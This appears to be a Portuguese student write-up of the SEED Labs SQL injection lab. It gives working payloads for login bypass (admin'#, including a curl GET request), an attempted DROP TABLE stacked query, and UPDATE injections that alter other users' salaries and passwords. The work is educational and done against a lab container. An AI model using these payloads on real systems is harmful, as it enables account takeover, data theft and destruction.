

# SQL Injection Attack

## Setup

Começámos por correr os seguintes comandos no terminal:

```bash
sudo nano etc/hosts     # para colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               
$ dcup                  

$ dockps
$ docksh ##             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Abrir a base de dados
```

## Tasks

### Task 1: 

A tarefa consiste em selecionar os dados do utilizador "Alice":

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

O resultado:


###  Task 2: 

#### Task 2.1 

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e executámos o seguinte código:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Ou podemos fazer isto na página:


Obtívemos assim os dados do administrador:


#### Task 2.2

O ataque será agora feito através de um pedido GET:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtendo-se assim a página HTML com os dados pessoais dos users:


#### Task 2.3

Adicionámos agora código de forma a causar um side-effect no servidor:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```
A operação não chegou a ser executada devido a um erro:


Segundo o [manual](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo servidor contém uma proteção que impede a execução de múltiplas queries, não sendo possível realizar o ataque.

### Task 3: 

#### Task 3.1

Depois de entrar com uma conta do sistema, podemos editar os dados pessoais.
Utilizámos o campo "SSN" para o ataque, da seguinte forma:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10211002',Salary='9999999' WHERE ID=$id;
```

Conseguímos assim alterar o salário para o valor escolhido:



#### Task 3.2
Para alterar o salário de outra pessoa usámos um código muito semelhante ao anterior:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```


#### Task 3.3

Para alterar a password de outra pessoa, temos que fazer o mesmo que a task anterior, mas desta vez temos que encriptar a password através da criptografia SHA1.
Para a password `ihackedyou`, o hash é `8b386dbd9fd6db15f6f943aa5e1705835b5039a2`.

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352', password='8b386dbd9fd6db15f6f943aa5e1705835b5039a2' WHERE name='Boby'# WHERE ID=$id;
```

Conseguímos assim entrar na conta:

